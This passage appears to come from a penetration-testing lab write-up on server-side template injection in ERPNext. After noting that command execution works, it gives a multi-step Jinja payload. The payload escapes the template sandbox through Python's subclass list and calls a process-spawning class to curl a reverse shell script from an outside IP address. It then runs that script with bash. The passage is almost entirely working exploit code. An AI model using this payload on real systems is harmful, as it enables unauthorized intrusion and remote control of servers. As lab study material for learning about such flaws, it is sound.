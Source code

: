 It worked! We can now execute commands against the ERPNext system.


Revshell in multiple step:

```
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}

{{ subclasses_r[889](["/usr/bin/curl","http://192.168.45.210:9999/revshell","-o","/tmp/revshell"])  }}

{{ subclasses_r[889](["/bin/bash","/tmp/revshell"]) }}
```


